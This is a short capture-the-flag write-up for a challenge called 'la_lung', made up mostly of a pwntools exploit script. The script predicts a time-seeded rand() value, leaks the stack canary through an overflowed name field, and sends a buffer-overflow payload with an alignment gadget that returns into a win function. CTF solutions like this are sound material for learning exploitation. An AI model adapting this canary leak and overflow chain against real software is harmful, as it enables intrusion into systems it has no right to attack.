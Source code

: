 # Challenge: la_lung
## Description

> I forgot the description :)) but it's roughly "If you solved it locally but failed remotely, try again"

## Source
> la_lung
## Solution
Note: **srand(time(0))** and **Stack Alignment**
```

#!/usr/bin/python3

##By shibajutsu and Gnas

import math
from ctypes import CDLL
from pwn import *

context.binary = elf = ELF('./la_lung', checksec=False)
libc = CDLL('libc.so.6')

p = process(elf.path)
# p = remote('167.172.3.35', 50010)

now = int(math.floor(time.time()))
libc.srand(now)

p.sendlineafter(b'name: ', b'a'*72)
canary = p.recvline().split(b' ')[-1][64:72]
canary = b'\x00' + canary[1:]
print(canary)
print(p64(u64(canary))) 

p.sendlineafter(b'Door\n', str(libc.rand()).encode())

address = p.recvline().split(b' ')[-1].strip()

address_win = int(address, 16)
gadget = address_win - (0x12a9-0x101a)
print(hex(address_win))

address = p64(int(address, 16))
print(address)

print(p.recvline())

p.sendline(b'A' * 88 + canary+ p64(0x1)+p64(gadget) + address)
p.interactive()
```
